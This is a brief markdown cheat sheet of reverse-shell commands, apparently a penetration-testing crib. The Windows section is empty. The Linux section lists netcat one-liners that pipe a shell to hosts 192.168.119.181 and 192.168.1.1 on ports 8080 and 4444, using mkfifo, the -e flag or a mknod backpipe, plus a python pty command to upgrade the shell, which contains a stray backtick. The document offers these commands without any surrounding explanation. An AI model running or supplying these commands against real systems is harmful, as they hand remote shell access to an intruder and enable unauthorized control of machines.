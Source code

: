 ## Windows Reverse Shells




## Linux Reverse Shells

mkfifo /tmp/xspezn; nc 192.168.119.181 8080 0</tmp/xspezn | /bin/sh >/tmp/xspezn 2>&1; rm /tmp/xspezn

nc 192.168.1.1 4444 -e /bin/bash

netcat with no "e" present:

mknod /tmp/backpipe p 

/bin/sh 0</tmp/backpipe | nc 192.168.119.181 8080 1>/tmp/backpipe

**Upgrade Shells**

python -c 'import pty; pty.spawn("/bin/bash"`)'
